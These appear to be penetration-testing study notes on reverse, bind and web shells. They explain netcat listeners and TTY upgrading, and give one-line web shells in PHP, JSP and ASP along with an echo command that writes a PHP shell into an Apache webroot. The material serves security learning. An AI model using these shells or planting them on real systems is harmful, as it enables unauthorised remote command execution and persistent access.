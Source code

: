 # Payload all the things repo
https://github.com/swisskyrepo/PayloadsAllTheThings

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., Bash or PowerShell, so we can thoroughly investigate the remote system for our next move.

One way to connect to a compromised system is through network protocols, like SSH for Linux or WinRM for Windows, which would allow us a remote login to the compromised system. However, unless we obtain a working set of login credentials, we would not be able to utilize these methods without executing commands on the remote system first, to gain access to these services in the first place.

- Reverse Shell: Connects back to our system and gives us control through a reverse connection;
- Bind Shell: Waits for us to connect to it and gives us control once we do;
- Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

# Reverse shell

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.

`nc -lvnp 1234`

- -l: Listen mode, to wait for a connection to connect to us;
- -v: Verbose mode, so that we know when we receive a connection;
- -n: Disable DNS resolution and only connect from/to IPs, to speed up the connection;
- -p 1234: Port number netcat is listening on, and the reverse connection should be sent to.

# Bind shell

Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.
Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell'to that port. We have to connect to that port with netcat, and we will get control through a shell on that system.

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

# Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the python/stty method. In our netcat shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

`python -c 'import pty; pty.spawn("/bin/bash")'`

After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:

`stty raw -echo`
`fg`

Once we hit fg, it will bring back our netcat shell to the foreground. At this point, the terminal will show a blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

`echo $TERM`
`stty size`

The first command showed us the TERM variable, and the second shows us the values for rows and columns, respectively. Now that we have our variables, we can go back to our netcat shell and use the following command to correct them:

`export TERM=xterm-256color`
`stty rows 67 columns 318`

# Web shell

The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

- PHP: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

- Apache: /var/www/html/
- Nginx: /usr/local/nginx/html/
- IIS: c:\inetpub\wwwroot\
- XAMPP: C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

Once we write our web shell, we can either access it through a browser or by using cURL.